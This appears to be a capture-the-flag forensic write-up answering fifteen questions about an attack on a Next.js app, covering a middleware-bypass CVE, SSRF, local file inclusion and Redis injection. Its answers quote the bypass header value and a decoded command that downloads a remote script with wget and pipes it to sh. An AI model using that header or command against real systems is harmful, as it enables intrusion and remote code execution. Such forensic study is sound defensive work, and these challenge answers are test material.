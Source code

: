 

##### Sherlock Scenario

NeuroSync™ is a leading suite of products focusing on developing cutting edge medical BCI devices, designed by the Korosaki Coorporaton. Recently, an APT group targeted them and was able to infiltrate their infrastructure and is now moving laterally to compromise more systems. It appears that they have even managed to hijack a large number of online devices by exploiting an N-day vulnerability. Your task is to find out how they were able to compromise the infrastructure and understand how to secure it.



Q1: What version of Next.js is the application using?

A: 15.1.0

In the interface.log.

![](../../Img/Pasted%20image%2020250429152722.png)

Q2: What local port is the Next.js-based application running on?

A: 3000

Q1 screenshot.

Q3: A critical Next.js vulnerability was released in March 2025, and this version appears to be affected. What is the CVE identifier for this vulnerability?

A: CVE-2025-29927

Googling it.

![](../../Img/Pasted%20image%2020250429153028.png)

https://projectdiscovery.io/blog/nextjs-middleware-authorization-bypass

Q4: The attacker tried to enumerate some static files that are typically available in the Next.js framework, most likely to retrieve its version. What is the first file he could get?

A: main-app.js

Inside the access.log, the first thing that we can notice it's the files that tried to access.

![](../../Img/Pasted%20image%2020250429153550.png)

The 2 files that we are interested in are main-app.js and page.js (the ones with code 200)

![](../../Img/Pasted%20image%2020250429153738.png)

![](../../Img/Pasted%20image%2020250429153724.png)

main-app.js seems like the answer.

Q5: Then the attacker appears to have found an endpoint that is potentially affected by the previously identified vulnerability. What is that endpoint?

A: /api/bci/analytics

After the first .js files the attacker searched for. There is only this endpoint.

![](../../Img/Pasted%20image%2020250429153924.png)

Q6: How many requests to this endpoint have resulted in an "Unauthorized" response?

A: 5

Unauthorized code is 401 (https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Status/401)

![](../../Img/Pasted%20image%2020250429154143.png)

Q7: When is a successful response received from the vulnerable endpoint, meaning that the middleware has been bypassed?

A: 2025-04-01 11:38:05

Search for the first 200 response from that endpoint.

![](../../Img/Pasted%20image%2020250429154309.png)

Q8: Given the previous failed requests, what will most likely be the final value for the vulnerable header used to exploit the vulnerability and bypass the middleware?

A: x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware

This article says it is. (https://projectdiscovery.io/blog/nextjs-middleware-authorization-bypass)

We can also see where the attack started in the interface.log file. It went from 1 to 4 middleware. But those were the ones that didn't work.

![](../../Img/Pasted%20image%2020250429154442.png)

After those 4 ones it worked, so we can assume that there were 5 middleware

![](../../Img/Pasted%20image%2020250429154736.png)

Q9: The attacker chained the vulnerability with an SSRF attack, which allowed them to perform an internal port scan and discover an internal API. On which port is the API accessible?

A: 4000

Just opening the data-api.log file we see this.

![](../../Img/Pasted%20image%2020250429154941.png)

Q10: After the port scan, the attacker starts a brute-force attack to find some vulnerable endpoints in the previously identified API. Which vulnerable endpoint was found?

A: /logs

In the same log file, following the brute force attack we cans see that one worked (bc it found a internal file).

![](../../Img/Pasted%20image%2020250429155315.png)

Q11: When the vulnerable endpoint found was used maliciously for the first time?

A: 2025-04-01 11:39:01

That would be when it accessed a file for the first time.

Q12: What is the attack name the endpoint is vulnerable to?

A: Local File Inclusion

That would be an LFI because it's passing the path of the file that the attacker wants to read in the logFile parameter that the /logs endpoint uses.

Q13: What is the name of the file that was targeted the last time the vulnerable endpoint was exploited?

A: secret.key

Scrolling down in search for the last one, we found this.

![](../../Img/Pasted%20image%2020250429155754.png)

Q14: Finally, the attacker uses the sensitive information obtained earlier to create a special command that allows them to perform Redis injection and gain RCE on the system. What is the command string?

A: OS_EXEC|d2dldCBodHRwOi8vMTg1LjIwMi4yLjE0Ny9oNFBsbjQvcnVuLnNoIC1PLSB8IHNo|f1f0c1feadb5abc79e700cac7ac63cccf91e818ecf693ad7073e3a448fa13bbb

As per the question, we check the redis.log file and find this weird command.

![](../../Img/Pasted%20image%2020250429155939.png)

Q15: Once decoded, what is the command?

A: wget http://185.202.2.147/h4Pln4/run.sh -O- | sh

I opened cyberchef and tried a few common conversions. Base 64 worked.

